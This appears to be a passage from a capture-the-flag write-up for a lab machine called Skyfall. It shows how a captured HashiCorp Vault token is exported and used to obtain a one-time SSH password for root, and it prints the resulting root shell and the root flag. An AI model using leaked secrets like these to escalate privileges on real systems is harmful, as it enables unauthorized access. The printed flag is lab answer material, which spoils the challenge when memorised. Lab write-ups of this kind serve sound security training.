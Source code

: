 

Let’s export everything we need to leverage an SSH connection.
```bash
┌──(kali㉿kali)-[~]
└─$ export VAULT_API_ADDR="<http://prd23-vault-internal.skyfall.htb>"


┌──(kali㉿kali)-[~]
└─$ export VAULT_ADDR="<http://prd23-vault-internal.skyfall.htb>" 


┌──(kali㉿kali)-[~]
└─$ export VAULT_TOKEN="hvs.I0ewVsmaKU1SwVZAKR3T0mmG"
```


We will do the same as for the lowpriv user, only changing the username and role.
```bash
┌──(kali㉿kali)-[~]
└─$ ./vault ssh -mode=otp -role=admin_otp_key_role root@skyfall.htb
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: 72297ac7-34d7-6834-ebb7-8817d9f9a389
(root@skyfall.htb) Password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-92-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/pro>

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to <https://changelogs.ubuntu.com/meta-release-lts>. Check your Internet connection or proxy settings

Last login: Sun Feb  4 19:30:03 2024 from 10.10.16.20
root@skyfall:~# id
uid=0(root) gid=0(root) groups=0(root)
```


Root flag: `2431ac9c9cbbb2b8420471e528a11f18`
```bash
root@skyfall:~# cat root.txt
2431ac9c9cbbb2b8420471e528a11f18
```
